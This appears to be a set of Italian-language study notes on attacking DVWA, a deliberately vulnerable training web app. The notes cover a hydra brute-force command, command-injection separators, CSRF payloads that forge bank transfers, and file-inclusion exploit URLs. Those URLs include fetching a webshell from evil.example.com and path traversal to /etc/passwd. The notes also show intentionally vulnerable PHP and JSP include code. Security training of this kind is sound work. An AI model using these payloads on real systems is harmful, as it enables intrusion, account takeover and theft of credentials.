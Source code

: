 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [DVWA](#dvwa)
  - [Brute force](#brute-force)
  - [Command injection](#command-injection)
  - [CSRF](#csrf)
  - [File inclusion](#file-inclusion)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# DVWA

> http://www.dvwa.co.uk/

- DVWA
	- Host: 172.0.17.2
	- Default credentials: admin/password
- Malicious web server
	- Host: 172.0.17.3

## Brute force

- recupera un PHPSESSID valido (`$1`)

- lancia:

	`$ hydra -l admin -P rockyou.txt localhost http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=$1; security=low"`

	"RELATIVE PATH:PARAMETERS:FAILED LOGIN TEXT:REQUEST COOKIES"

## Command injection

- inserisci i seguenti valori:

	`; CMD`

	`&& CMD`

	`& CMD`

	`| CMD`

## CSRF

Cross-Site Request Forgery forza l'utente a fare una richiesta malevola a un sito su cui è autenticato.
L'attacco ha come obiettivo le richieste che cambiano lo stato interno del server, non il furto di dati, infatti l'attaccante non ha modo di vedere la risposta alla richiesta malevola.
Si ha una vulnerabilità "stored CSRF" quando l'attaccante è in grado di rendere persistente l'attacco direttamente sul sito vulnerabile.
A tale scopo si memorizza un tag IMG o IFRAME in un campo che accetta HTML o si realizza un più complesso attacco di XSS.

Esempi (metodo GET):

```
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>
```

o

```
<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">
```

Esempi (metodo POST):

```
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```

o

```
<body onload="document.forms[0].submit()">
<form...>
```

o

```
<script>
function put() {
	var x = new XMLHttpRequest();
	x.open("PUT","http://bank.com/transfer.do",true);
	x.setRequestHeader("Content-Type", "application/json"); 
	x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
}
</script>

<body onload="put()">
```

L'ultima richiesta **non** viene eseguita dai moderni browser grazie alla restrizione *same-origin policy*.
Questa protezione è abilitata di default, a meno che il server abiliti esplicitamente le richieste cross-origin da uno o più siti usando CORS con l'header `Access-Control-Allow-Origin: *`.

## File inclusion

Questa vulnerabilità si ha quando un'applicazione crea un path per codice eseguibile usando una variabile che è sotto il controllo dell'attaccante,
in un modo che gli permette di controllare quale file viene eseguito.
Sfruttando una vulnerabilità di questo tipo permette una RCE sul server che esegue l'appicazione vulnerabile.

- Remote File Inclusion

	L'applicazione scarica ed esegue un file remoto.

	Exploit:

		http://localhost/vulnerabilities/fi/?page=http://172.17.0.3/rfi.php

- Local File Inclusion

	Come il RFI ma il file sfruttato è presente sul server.

	Exploit:

		http://localhost/vulnerabilities/fi/?page=/etc/passwd

#### PHP

Funzioni che includono un file per l'esecuzione sono `include` e `require`.
La direttiva `allow_url_fopen` o `allow_url_include` (in `php.ini`) abilitata permette di usare una URL per scaricare un file remoto ed eseguirlo.
Anche se disabilitato è raggirabile con compressione (`zlib://`) o stream audio (`ogg://`) che non ispezionano il flag URL PHP interno.
Si possono sfruttare anche i wrapper PHP come `php://input`.

Codice vulnerabile:

```
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>

<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

Exploit:

```
/vulnerable.php?language=http://evil.example.com/webshell.txt?
/vulnerable.php?language=C:\\ftp\\upload\\exploit
/vulnerable.php?language=C:\\notes.txt%00
/vulnerable.php?language=../../../../../etc/passwd%00
/vulnerable.php?language=../../../../../proc/self/environ%00
```

#### JSP

Anche le JSP sono vulnerabili a Null byte injection (`%00`)

Codice vulnerabile:

```
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

Exploit:

```
/vulnerable.jsp?p=../../../../var/log/access.log%00
```
